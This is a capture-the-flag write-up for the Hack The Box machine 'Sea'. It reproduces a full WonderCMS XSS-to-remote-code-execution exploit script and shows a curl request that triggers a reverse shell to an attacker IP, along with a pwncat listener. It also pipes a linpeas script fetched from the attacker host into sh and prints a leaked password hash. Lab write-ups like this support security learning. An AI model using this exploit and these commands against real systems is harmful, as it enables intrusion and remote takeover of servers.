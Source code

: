 # Sea Heist - HTB Writeup

## PART ONE: USER

Let’s begin with an nmap scan:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e354e072203c014293d1669d900cabe8 (RSA)
|   256 f3244b08aa519d56153d6756747c2038 (ECDSA)
|_  256 30b105c64150ff22a37f41060e67fd50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

IIt seems like there are two services, HTTP and SSH, which are pretty common. Let's focus on HTTP first. And to do so, I will need to add the box to our `/etc/hosts`.

Let's have a look at the site :

['site first look'](site1.png)

Nothing special at first glance. There is another page `How to participate`. That leads to `contact.php`.

I tried many things on this page but it was a waste of time. Let's get back to a good old `fuff` scan :

```bash
ffuf -c -w /opt/seclists/Discovery/Web-Content/big.txt -u "http://$TARGET/FUZZ" -recursion -recursion-depth 4 -fc 302,401,403
```

After searching for a while, I came across two interesting paths: `/themes/bike/version` and `/themes/bike/Readme.md`. With them I learn that the site is using the `WonderCMS` framework in it's version 3.2.0.

Let's dig for some exploits on [exploit-db.com](https://www.exploit-db.com/exploits/51805).

I found a pretty intereting one with `WonderCMS` version 4.3.2.

```python
# Author: prodigiousMind
# Exploit: Wondercms 4.3.2 XSS to RCE


import sys
import requests
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```

I tried it but it does not work. Let's analyse it to understand how it works. It seems like the above code install a module called RevShell and save it to `themes/revshell-main/rev.php`. And then execute it : `xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);`

Okay. Let's try something like :

```bash
curl http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.61+&lport=1234
```

And starting the listenner :

```bash
pwncat-cs :1234
```

If you don't know pwncat yet, you should definitely have a look. And boom, I get in !

```bash
wncat-cs :1234
[19:20:51] Welcome to pwncat 🐈!                                                      __main__.py:164
[19:53:25] received connection from 10.10.11.28:35156                                      bind.py:84
[19:53:33] 0.0.0.0:1234: upgrading from /usr/bin/dash to /usr/bin/bash                 manager.py:957
[19:53:35] 10.10.11.28:35156: registered new host w/ db                                manager.py:957
(local) pwncat$                                                                                      
(remote) www-data@sea:/$ whoami
www-data
```

Now we need to find to way to connect ourselve as a user. I proceed to some search and found `/var/www/sea/data/database.js`.

```javascript
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

And to find the username just `ls /home`. There is two users `amay` and `geo`. Now we can ssh and validate the user flag !

## PART TWO: ROOT

Now about privilege escalation. There is no script or sudo command execution.

So let's do linpeas. To download it on the box we can start a local server :

```bash
python3 -m http.server 80
```

And curl on the box what we need :

```bash
curl http://10.10.16.61/linpeas.sh | sh
```

After analysing the result there is nothing amazing. However, there is port `8080` opened. We can make an ssh port forwarding :

```bash
ssh -L 8888:localhost:8080 amay@sea.htb
```

And visit here on our browser :

[root site](./site3.png)

Well this a System Monitor page. The first thing I notice is the Analyze part with a file selection. LFI ?

Let's investigate on burpsuite.

[burpsuite-capture](burp1.png)

Let's try something like this :

[burpsuite-lfi](burp2.png)

Hmmmm. Why not trying to put an error ?

[burpsuite-lfi-error](burp3.png)

And boom ! This it !

Thanks for reading, please tell me if this writeup needs some changes to improve clarity, grammar, and technical accuracy.
